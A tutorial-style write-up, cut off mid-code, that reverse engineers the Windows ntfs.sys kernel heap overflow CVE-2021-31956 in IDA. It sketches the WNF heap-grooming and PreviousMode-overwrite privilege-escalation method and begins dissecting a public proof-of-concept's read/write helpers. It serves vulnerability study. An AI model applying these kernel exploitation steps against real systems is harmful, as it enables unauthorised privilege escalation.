# Table of Contents

- [Table of Contents](#table-of-contents)
- [Introduction](#introduction)
- [Reverse Engineering CVE-2021-31956](#reverse-engineering-cve-2021-31956)
  - [The Initial Advisory](#the-initial-advisory)
  - [Recreating CVE-2021-31956](#recreating-cve-2021-31956)
    - [Locating NtfsQueryEaUserEaList in IDA](#locating-ntfsqueryeauserealist-in-ida)
    - [Adding a Custom Data Structure in IDA](#adding-a-custom-data-structure-in-ida)
    - [Renaming Variables in IDA](#renaming-variables-in-ida)
    - [Analyzing the Basic Blocks and Pseudocode in IDA](#analyzing-the-basic-blocks-and-pseudocode-in-ida)
    - [Examining a Syscall to NtfsQueryEaUserEaList](#examining-a-syscall-to-ntfsqueryeauserealist)
- [Exploiting CVE-2021-31956](#exploiting-cve-2021-31956)
  - [Returning to the Advisory](#returning-to-the-advisory)
    - [Exploit Chain](#exploit-chain)
    - [EPROCESS Structure](#eprocess-structure)
    - [PreviousMode Overwrite](#previousmode-overwrite)
  - [Exploitation Overview](#exploitation-overview)
  - [Examining Y3A's Proof-of-Concept](#examining-y3as-proof-of-concept)
    - [Include Directives](#include-directives)
    - [NULL-Pointer Declarations](#null-pointer-declarations)
    - [The write64 Function](#the-write64-function)
    - [The read64 Function](#the-read64-function)
    - [The fix\_runrefs Function](#the-fix_runrefs-function)
    - [The steal\_token Function](#the-steal_token-function)
    - [The write\_pool Function](#the-write_pool-function)
      - [Sandbox Constraints](#sandbox-constraints)
    - [The read\_pool Function](#the-read_pool-function)
      - [Sandbox Constraints](#sandbox-constraints-1)
    - [The find\_chunk Function](#the-find_chunk-function)
    - [The overflow\_chunk Function](#the-overflow_chunk-function)
    - [The fragment\_heap Function](#the-fragment_heap-function)
    - [The spray\_heap Function](#the-spray_heap-function)
      - [Security Descriptor Members](#security-descriptor-members)
        - [Revision](#revision)
        - [Sbz1](#sbz1)
        - [Control](#control)
        - [Owner](#owner)
        - [Group](#group)
        - [Sacl](#sacl)
        - [Dacl](#dacl)
      - [Sandbox Constraints](#sandbox-constraints-2)
    - [The get\_eproc Function](#the-get_eproc-function)
    - [The create\_cmd Function](#the-create_cmd-function)
    - [The resolve\_symbols Function](#the-resolve_symbols-function)
    - [The main Function](#the-main-function)
- [References](#references)

# Introduction

[Return to Top](#table-of-contents)

CVE-2021-31956 is a Windows kernel local privilege escalation vulnerability found in multiple Windows versions including but not limited to [Windows 10 20H2](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31956). The computer security company Kaspersky first detected the vulnerability as a actively-exploited issue found [in-the-wild](https://securelist.com/puzzlemaker-chrome-zero-day-exploit-chain/102771/).

# Reverse Engineering CVE-2021-31956

[Return to Top](#table-of-contents)

To start things off with, we will examine the advisory posted by Kaspersky and then use the information provided to find the vulnerability ourselves. 

## The Initial Advisory

[Return to Top](#table-of-contents)

The relevant portions of the vulnerability [advisory](https://securelist.com/puzzlemaker-chrome-zero-day-exploit-chain/102771/) posted by Kaspersky is as follows: 

> The other vulnerability, CVE-2021-31956, is a heap-based buffer overflow in `ntfs.sys`. The function `NtfsQueryEaUserEaList` processes a list of extended attributes for the file and stores the retrieved values to a buffer. This function is accessible via a `ntoskrnl` system call and among other things it's possible to control the size of the output buffer. If the size of the extended attribute is not aligned, the function will calculate a padding and the next extended attribute will be stored at a 32-bit alignment. The code then checks if the output buffer is long enough to fit the extended attribute with padding, but it doesn't check for a possible integer underflow. As a result, a heap-based buffer overflow can occur. 

> The exploit uses CVE-2021-31956 alongside the Windows Notification Facility (WNF) to create arbitrary memory read and write primitives. We are planning to publish more information about this technique in the future. 

> As the exploit uses CVE-2021-31955 to get the kernel address of the EPROCESS structure, it is able to use the common post-exploitation technique to steal the SYSTEM token. However, the exploit uses a rarely used "PreviousMode" technique instead. We have seen this technique used by the CHAINSHOT framework and even made a presentation about it at CanSecWest/BlueHat in 2019. The exploit then uses this technique to inject a malware module into the system process and executes it. 

Alongside the advisory, Kaspersky also posted the following pseudocode highlighting the vulnerable code in the `NtfsQueryEaUserEaList` function: 

```cpp
for ( cur_ea_list_entry = ea_list; ; cur_ea_list_entry = next_ea_list_entry )
{
  ...
 
  out_buf_pos = (DWORD *)(out_buf + padding + occupied_length);
 
  if ( NtfsLocateEaByName(eas_blocks_for_file, eas_blocks_size, &name, &ea_block_pos) )
  {
	ea_block = eas_blocks_for_file + ea_block_pos;
	ea_block_size = ea_block->DataLength + ea_block->NameLength + 9;
	if ( ea_block_size <= out_buf_length - padding ) // integer-underflow is possible
	{
  	memmove(out_buf_pos, (const void *)ea_block, ea_block_size); // heap buffer overflow
  	*out_buf_pos = 0;
	}
  }
  else
  {
	...
  }
 
  ...
 
  occupied_length += ea_block_size + padding;
  out_buf_length -= ea_block_size + padding;
  padding = ((ea_block_size + 3) & 0xFFFFFFFC) - ea_block_size;
 
  ...
}
```

Based on the analysis performed by [Y3A](https://y3a.github.io/2022/09/03/cve-2021-31956/), we can summarize the advisory as follows: 

> There is a heap-based buffer overflow from an integer-underflow in the `ntfs.sys` function `NtfsQueryEaUserEaList` which is accessible via a `ntoskrnl.exe` system call. After gaining a kernel-mode write primitive, the exploit uses CVE-2021-31956 with the Windows Notification Facility and an `PreviousMode` overwrite technique for the exploit's `EPROCESS` structure.

We can now move onto finding the vulnerability ourselves.

## Recreating CVE-2021-31956

[Return to Top](#table-of-contents)

This next section focuses on how to find the vulnerability using IDA and WinDbg. In particular, we will be discussing the steps needed to both recreate the work already done by the vulnerability advisory as well as other researchers. 

### Locating NtfsQueryEaUserEaList in IDA

[Return to Top](#table-of-contents)

Our focus now is to locate the function `NtfsQueryEaUserEaList` in a vulnerable version of `ntfs.sys`. In our case, we will be using a version from Windows 10 20H2. Once we have a version of the vulnerable driver, we will open it in IDA and locate `NtfsQueryEaUserEaList` in IDA: 



As well as examining the pseudocode as shown in the advisory, we will also be looking through each basic block as it corresponds to the pseudocode. When we first generate the pseudocode for `NtfsQueryEaUserEaList`, we notice that we are missing both the variable names and possibly a data structure: 

```cpp
for ( i = a6; ; i = (unsigned int *)((char *)i + *i) )
{
    //...
    v16 = (_DWORD *)(a4 + v9 + v26);
    if //...
    {
        //...
        if ( (unsigned __int8)NtfsLocateEaByName(a2, *(unsigned int *)(a3 + 4), &DestinationString, &v21) )
        {
            v20 = a2 + v21;
            v17 = *(unsigned __int16 *)(v20 + 6) + *(unsigned __int8 *)(v20 + 5) + 9;
            if ( v17 <= a5 - v9 )
            {
            memmove(v16, (const void *)v20, v17);
            *v16 = 0;
            goto LABEL_8;
            }
        }
        else
        {
            //...
            if //...
            {
                //...
                if //...
                {
                    if //...
                    {
                        v23 = v16;
                        a5 -= v17 + v9;
                        v9 = ((v17 + 3) & 0xFFFFFFFC) - v17;
                        goto LABEL_24;
                    }
                }
                //...
            }
        }
        //...
    }
    //...
}
```

It is interesting to note that the our disassembly that IDA produced is quite different from the advisory. This may be due to a different vulnerable version of `ntfs.sys`. However, we will not worry about it for now as it does not seem to impact the exploitability of this bug. 

### Adding a Custom Data Structure in IDA

[Return to Top](#table-of-contents)

Now that we have located the vulnerable function ourselves, let's proceed to recreate the data structure shown in the advisory: 

```cpp
ea_block_size = ea_block->DataLength + ea_block->NameLength + 9;
```

Here, we see that this structure provides extended attributes with two separate types of lengths. Now, using the search query 

> extended attribute length structure microsoft

We get the following two results: 



We examine both structures, and we discover the `FILE_FULL_EA_INFORMATION` structure is the only structure out of the two to have two separate lengths defined: 

```cpp
typedef struct _FILE_FULL_EA_INFORMATION {
  ULONG  NextEntryOffset;
  UCHAR  Flags;
  UCHAR  EaNameLength;
  USHORT EaValueLength;
  CHAR   EaName[1];
} FILE_FULL_EA_INFORMATION, *PFILE_FULL_EA_INFORMATION;
```

Now that we have the associated structure for the vulnerable code in `NtfsQueryEaUserEaList`, we will now go to *View -> Open subviews -> Local types*:



Once there, we will then right click within the view and select *Insert*:



A dialog box will then appear, within the dialog box we paste the `FILE_FULL_EA_INFORMATION` structure: 



We then click *Ok* and head back to the variable `v20`, right-click on it, and select *Convert to struct*...*:



We will then go to our entry for `FILE_FULL_EA_INFORMATION`, select it, and click *Ok*: 



At this point, we see that our data structure updated within IDA: 



### Renaming Variables in IDA

[Return to Top](#table-of-contents)

Now that we have added our custom data structure, we can proceed to rename our variables in IDA to that of the variables provided in the initial advisory: 

```cpp
for ( cur_ea_list_entry = ea_list;
          ;
          cur_ea_list_entry = (unsigned int *)((char *)cur_ea_list_entry + *cur_ea_list_entry) )
{
    //...
    if //...
    {
        //...
        out_buf_pos = (_DWORD *)(out_buf + padding + occupied_length);
        if ( (unsigned __int8)NtfsLocateEaByName(eas_blocks_for_file, *(unsigned int *)(a3 + 4), &name, &ea_block_pos) )
        {
          ea_block = (_FILE_FULL_EA_INFORMATION *)(eas_blocks_for_file + ea_block_pos);
          ea_block_size = ea_block->EaValueLength + ea_block->EaNameLength + 9;
          if ( ea_block_size <= out_buf_length - padding )
          {
            memmove(out_buf_pos, ea_block, ea_block_size);
            *out_buf_pos = 0;
            goto LABEL_8;
          }
        }
        else
        {
            //...
            if //...
            {
                //...
                if //...
                {
                    if //...
                    {
                        v23 = out_buf_pos;
                        out_buf_length -= ea_block_size + padding;
                        padding = ((ea_block_size + 3) & 0xFFFFFFFC) - ea_block_size;
                        //...
                    }
                }
                //...
            }
        }
        //...
    }
```

One thing to note is that we are missing the `eas_blocks_size` parameter as our version of `ntfs.sys` uses a data structure value instead of a direct parameter as in the advisory. In addition, the iteration of `occupied_length` is slightly different.Finally, the way the `for` loop iterates through each entry is counted differently. However, since these differences do not seem to impact the exploit, we will ignore them. 

### Analyzing the Basic Blocks and Pseudocode in IDA

[Return to Top](#table-of-contents)

Now that we have all pertinent data structures and variables in the vulnerable function `NtfsQueryEaUserEaList`, let's proceed to include more of the pseudocode to then better learn why this vulnerability exists in the first place. We will take the pseudocode provided by the Alex Plaskett in their [analysis of CVE-2021-31956](https://research.nccgroup.com/2021/07/15/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-1/) and recontextualize it to our version of `ntfs.sys`: 

```cpp
__int64 __fastcall NtfsQueryEaUserEaList(
        __int64 a1,
        __int64 eas_blocks_for_file,
        __int64 a3,
        __int64 out_buf,
        unsigned int out_buf_length,
        unsigned int *ea_list,
        char a7)
{
  //...
  unsigned int padding; // r15d
  //...
  padding = 0;
  occupied_length = 0;
  while ( 1 )
  {
    //...
    for ( cur_ea_list_entry = ea_list; ; cur_ea_list_entry = (unsigned int *)((char *)cur_ea_list_entry + *cur_ea_list_entry) )
    {
      if ( cur_ea_list_entry == v11 )
      {
        v15 = occupied_length;
        out_buf_pos = (_DWORD *)(out_buf + padding + occupied_length);
        if ( (unsigned __int8)NtfsLocateEaByName(eas_blocks_for_file, *(unsigned int *)(a3 + 4), &name, &ea_block_pos) )
        {
          ea_block = (_FILE_FULL_EA_INFORMATION *)(eas_blocks_for_file + ea_block_pos);
          ea_block_size = ea_block->EaValueLength + ea_block->EaNameLength + 9;
          if ( ea_block_size <= out_buf_length - padding )
          {
            memmove(out_buf_pos, ea_block, ea_block_size);
            *out_buf_pos = 0;
            goto LABEL_8;
          }
        }
        else
        {
          ea_block_size = *((unsigned __int8 *)v11 + 4) + 9;
          if ( ea_block_size + padding <= out_buf_length )
          {
            //...
            *((_BYTE *)out_buf_pos + *((unsigned __int8 *)v11 + 4) + 8) = 0;
            //...
            v18 = ea_block_size + padding + v15;
            occupied_length = v18;
            if ( !a7 )
            {
              if ( v23 )
                *v23 = (_DWORD)out_buf_pos - (_DWORD)v23;
              if ( *v11 )
              {
                v23 = out_buf_pos;
                out_buf_length -= ea_block_size + padding;
                padding = ((ea_block_size + 3) & 0xFFFFFFFC) - ea_block_size;
                goto LABEL_24;
              }
            }
            //...
          }
        }
        //...
      }
      //...
    }
    //...
  }
  //...
}
```

Now that we have the recontextualized pseudocode of `NtfsQueryEaUserEaList`, let's walk through what a syscall to `NtfsQueryEaUserEaList` would look like alongside each basic block. 

### Examining a Syscall to NtfsQueryEaUserEaList

[Return to Top](#table-of-contents)

For this section, we will be walking through the analysis done by the Alex Plaskett in their [blog post](https://research.nccgroup.com/2021/07/15/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-1/) analyzing CVE-2021-31956. To start things off, let's examine both the `for` loop and the primary `if` condition vulnerable to CVE-2021-31965: 

```cpp
//...
for ( cur_ea_list_entry = ea_list; ; cur_ea_list_entry = (unsigned int *)((char *)cur_ea_list_entry + *cur_ea_list_entry) )
    {
      if ( cur_ea_list_entry == v11 )
      {
        //...
         if ( (unsigned __int8)NtfsLocateEaByName(eas_blocks_for_file, *(unsigned int *)(a3 + 4), &name, &ea_block_pos) )
        {
          ea_block = (_FILE_FULL_EA_INFORMATION *)(eas_blocks_for_file + ea_block_pos);
          ea_block_size = ea_block->EaValueLength + ea_block->EaNameLength + 9;
          if ( ea_block_size <= out_buf_length - padding )
          {
            memmove(out_buf_pos, ea_block, ea_block_size);
            *out_buf_pos = 0;
            goto LABEL_8;
          }
      }
      //...
    }
    //...
}
```

Looking at the basic block representation, we see that the `for` loop starts here: 



As we can see, each value in `cur_ea_list_entry` is checked against `v11` or in other words, the value in the register RBX is compared to the value in R12. If the value in RBX is not equal to the value in R12, the loop takes the green code path. According to the advisory, the vulnerable function path for CVE-2021-31956 occurs when this basic block fails the check and takes the red code path. So far we have covered the following loop and check from our pseudocode: 

```cpp
//...
for ( cur_ea_list_entry = ea_list; ; cur_ea_list_entry = (unsigned int *)((char *)cur_ea_list_entry + *cur_ea_list_entry) )
    {
      if ( cur_ea_list_entry == v11 )
      {
        // WE ARE HERE
    }
    //...
}
```

We proceed to examine the next basic block we reach after not jumping with the JNZ instruction: 



Now, according to the advisory, we want to pass this check and jump with the JNZ instruction. We can assume that the `NtfsLocateEaByName` probably checks if an Extended Attribute is present, and if so return 0 and jump. We now have covered the next `if` condition and we reexamine our position within the pseudocode: 

```cpp
//...
for ( cur_ea_list_entry = ea_list; ; cur_ea_list_entry = (unsigned int *)((char *)cur_ea_list_entry + *cur_ea_list_entry) )
    {
      if ( cur_ea_list_entry == v11 )
      {
        v15 = occupied_length;
        out_buf_pos = (_DWORD *)(out_buf + padding + occupied_length);
        if ( (unsigned __int8)NtfsLocateEaByName(eas_blocks_for_file, *(unsigned int *)(a3 + 4), &name, &ea_block_pos) )
        {
          // WE ARE HERE
        }
        //...
    }
    //...
}
```

We've now reached the vulnerable code inside of `NtfsQueryEaUserEaList`: 



Looking at the diagram above, we can see two specific things: 

1. According to the x64 fastcall calling convention, RDX is the second input parameter for a function call. In our case, we know that RDX is user-controlled as per the advisory from Kaspersky.Therefore, we move onto the second observation. 
2. If our controlled value is less than *or equal to* the output buffer length minus the padding, we pass the `if` condition. 

Now since we control half of the vulnerable `if` comparison, we should look further into what the other half entails. We continue to follow the basic block code path until we reach the code that sets the size of the `padding`: 



Here, based again off of the information provided in the [advisory](https://securelist.com/puzzlemaker-chrome-zero-day-exploit-chain/102771/), we see that the padding is calculated in such a way to store the next extended attribute with a 32-bit alignment. 

This is where the vulnerability occurs. If an attacker is able to create a perfectly aligned output buffer, we would pass the check where the `ea_block_size` variable is less than *or equal to* the output buffer's length minus a padding of 0. 

# Exploiting CVE-2021-31956

[Return to Top](#table-of-contents)

Now that we have an understanding of the vulnerability. We can now proceed to examine both the exploit used and the context in which it was originally discovered. 

## Returning to the Advisory

[Return to Top](#table-of-contents)

Before striking out on our own, let's go ahead and review the information already provided by Kaspersky in their advisory for CVE-2021-31956. 

### Exploit Chain

[Return to Top](#table-of-contents)

In Kaspersky's initial triage of the discovery, CVE-2021-31956 was part
of a larger chain of vulnerabilities used to escape the Google Chrome
browser and use CVE-2021-31956 to escalate privileges and gain remote
code execution as the Windows kernel.

As mentioned previously, the attackers used
[CVE-2021-21224](https://nvd.nist.gov/vuln/detail/CVE-2021-21224) as a means to escape the Chrome
sandbox and gain remote code execution. Then, the attackers seemingly
used another exploit, chiefly [CVE-2021-31955](https://nvd.nist.gov/vuln/detail/CVE-2021-31955) to
obtain the kernel address of the current process' `EPROCESS` value
to then overwrite the `PreviousMode` offset to then set the current process'
context to that of `SYSTEM`.

### EPROCESS Structure

[Return to Top](#table-of-contents)

What is the `EPROCESS` structure? According to [Microsoft](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/eprocess): 

> The EPROCESS structure is an opaque structure that serves as the process object for a process.

In layman's terms, this basically means that if an attacker obtains the `EPROCESS` memory address for their current process, if they had a kernel-mode write primitive, they would be able to escalate their privileges to `SYSTEM`. The specifics of this technique is described in the next section. 

### PreviousMode Overwrite

[Return to Top](#table-of-contents)

As noted by Kaspersky, traditionally, an attacker would steal the `SYSTEM` token to escalate privileges. However, by overwriting the `PreviousMode` field with `0x0`, it is possible to then execute various routines from user-made in kernel-mode. This means that with the `PreviousMode` field set to `0x0`, parameters are trusted and thus are not checked by the kernel. 

Now that we have a basic grasp of the context of what CVE-2021-31956 does and how it was discovered, let's now explore the proof-of-concept used to exploit this vulnerability. 

## Exploitation Overview

[Return to Top](#table-of-contents)

In order to arbitrarily read and write to anywhere in memory, we will need to first groom the heap until our NTFS buffer is next to a `_WNF_STATE_DATA` chunk. Then, we will need to overflow the `AllocatedSize` and `DataSize` fields within the `_WNF_STATE_DATA` chunk. The `AllocatedSize` and `DataSize` fields now provide us with the ability to read and write within the pool after this chunk. Specifically, `AllocatedSize` determines the number of bytes that can be written whereas `DataSize` determines the number of bytes that can be read. Using this read and write ability, we will then locate a `_WNF_NAME_INSTANCE` chunk and read it's `StateName` to . In addition, we will use our write to overwrite the `StateData` parameter in the `_WNF_NAME_INSTANCE` chunk to point anywhere in memory, so long as the location in memory has a `_WNF_STATE_DATA` structure. 



## Examining Y3A's Proof-of-Concept

[Return to Top](#table-of-contents)

In this section we will be looking at the approach [Y3A](https://y3a.github.io/) took to exploit CVE-2021-31956. Our goal is to break down every section and understand exactly why the exploit works and the concepts behind each technique used. 

### Include Directives

[Return to Top](#table-of-contents)

Now that we understand the context in which the vulnerability was originally used, let's explore the proof-of-concept [Y3A](https://github.com/Y3A) of Star Labs created to exploit CVE-2021-31956.

To start things off, we will examine the import section of the
proof-of-concept. As with most C++ source code, the first section is
usually a series of `#include` directives:

```cpp
#include <stdio.h>
#include <Windows.h>
#include <ntstatus.h>
#include <TlHelp32.h>
#include "CVE-2021-31956.h"
```

As defined by [Microsoft](https://learn.microsoft.com/en-us/cpp/preprocessor/hash-include-directive-c-cpp?view=msvc-170), the `#include`
directive informs the C++ preprocessor to add the contents of the
specified file at the location of the `#include` directive in the source
code.

Looking at the above code block, we notice the first four `#include`
directives use angle bracket notation whereas the last `#include`
directive uses the quotation notation to describe the target header
file. According to the [GNU Foundation](https://gcc.gnu.org/onlinedocs/cpp/Include-Syntax.html), angle brackets
or `#include <file>` are used to specify system header files. However,
double quotation marks or `#include "file"` are used to define a
user-generated header file. The search location for angle bracket
`#include` directives is within a standard list of system directories
whereas for double quotation mark `#include` directives the search
location is within the directory of the source code.

### NULL-Pointer Declarations

[Return to Top](#table-of-contents)

Moving on, we now examine the NULL-pointer declaration and type-casting
used prior to the `main` function:

```cpp
NQSI _NtQuerySystemInformation = (NQSI)NULL;
NQEF _NtQueryEaFile = (NQEF)NULL;
NSEF _NtSetEaFile = (NSEF)NULL;
NCWSN _NtCreateWnfStateName = (NCWSN)NULL;
NUWSD _NtUpdateWnfStateData = (NUWSD)NULL;
NDWSN _NtDeleteWnfStateName = (NDWSN)NULL;
NDWSD _NtDeleteWnfStateData = (NDWSD)NULL;
NQWSD _NtQueryWnfStateData = (NQWSD)NULL;
NRVM _NtReadVirtualMemory = (NRVM)NULL;
NWVM _NtWriteVirtualMemory = (NWVM)NULL;
```

In order to effectively break each line down, we will also pair each
NULL-pointer declaration and type-casting to its respective type
definition found in the `CVE-2021-31956.h` header file. To start things
off, let's look at the first line:

```cpp
NQSI _NtQuerySystemInformation = (NQSI)NULL;
```

Here, we see that the variable `_NtQuerySystemInformation` is of type
`NQSI` with the same type being type-cast to the value `NULL`. According
to [East Carolina University](http://www.cs.ecu.edu/karl/3300/spr14/Notes/C/typedef.html), it is possible to use
`typedef` to give a function type a name. For example,

```cpp
typedef NTSTATUS(NTAPI *NQSI) (
    IN SYSTEM_INFORMATION_CLASS SystemInformationClass,
    OUT PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength OPTIONAL
    );
```

Would define the function pointer `NQSI` of type `NTAPI` to be the type
of the function that takes 4 arguments and returns an `NTSTATUS` value.
Without loss of generality, it is possible to use this same approach to
the other NULL-pointer declarations and type-castings.

### The write64 Function

[Return to Top](#table-of-contents)

Looking at the `write64` function declaration, namely:

```cpp
void write64(ULONG_PTR addr, UINT64 data)
```

We notice it has a return value of `void` indicating that it does not
return a value. In addition, we see that it takes a Unsigned Long
pointer and a Unsigned 64-bit integer as input. Examining the function
definition we see the following:

```cpp
char    buf[8] = { 0 };
ULONG   wrote;

*(UINT64 *)buf = data;
_NtWriteVirtualMemory(GetCurrentProcess(), (PVOID)addr, buf, 0x8, &wrote);

return;
```

First, a `char` array called `buf` and of size `8` with its elements
initialized to `0`. We also notice the variable `wrote` is declared of
type `ULONG`. According to [Microsoft](https://learn.microsoft.com/en-us/dotnet/visual-basic/language-reference/data-types/ulong-data-type), a `ULong`
data type contains an `8`-byte unsigned integer. Next, we see the
pointer `buf` being cast to a pointer of type `UINT64` before being
dereferenced and given the value of `data`. As such, the datatype of the
content pointed to by `buf` will now be interpreted as a `UINT64`, in this
case as a 64-bit unsigned integer.

Before examining the final line, let's look at the type definition for
the `NWVM` datatype:

```cpp
typedef NTSTATUS (NTAPI *NWVM)(
